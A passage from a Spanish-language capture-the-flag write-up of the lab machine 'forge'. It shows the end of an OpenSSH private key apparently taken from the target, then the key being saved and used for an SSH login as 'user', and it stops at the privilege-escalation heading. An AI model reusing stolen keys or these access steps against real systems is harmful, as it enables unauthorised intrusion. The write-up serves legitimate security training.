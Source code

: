 ```bash
9vCV+ZfL9yfI2gz9oWrk9NWOP46zuzRCmce4Lb8ia2tLQNbnG9cBTE7TARGBY0QOgIWy0P
fikLIICAMoQseNHAhCPWXVsLL5yUydSSVZTrUnM7Uc9rLh7XDomdU7j/2lNEcCVSI/q1vZ
dEg5oFrreGIZysTBykyizOmFGElJv5wBEV5JDYI0nfO+8xoHbwaQ2if9GLXLBFe2f0BmXr
W/y1sxXy8nrltMVzVfCP02sbkBV9JZAAAAwQDErJZn6A+nTI+5g2LkofWK1BA0X79ccXeL
wS5q+66leUP0KZrDdow0s77QD+86dDjoq4fMRLl4yPfWOsxEkg90rvOr3Z9ga1jPCSFNAb
RVFD+gXCAOBF+afizL3fm40cHECsUifh24QqUSJ5f/xZBKu04Ypad8nH9nlkRdfOuh2jQb
nR7k4+Pryk8HqgNS3/g1/Fpd52DDziDOAIfORntwkuiQSlg63hF3vadCAV3KIVLtBONXH2
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```

```bash
❯ nano id_rsa
❯ chmod 600 id_rsa
```

Ahora nos conectamos por **SSH** como **user**

```bash
❯ ssh -i id_rsa user@10.10.11.111
The authenticity of host '10.10.11.111 (10.10.11.111)' can't be established.
ECDSA key fingerprint is SHA256:e/qp97tB7zm4r/sMgxwxPixH0d4YFnuB6uKn1GP5GTw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.111' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 10 Jun 2023 09:15:19 PM UTC

  System load:           0.16
  Usage of /:            43.9% of 6.82GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             223
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.111
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f43c


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Aug 20 01:32:18 2021 from 10.10.14.6
user@forge:~$ 
```

## Escalada de privilegios
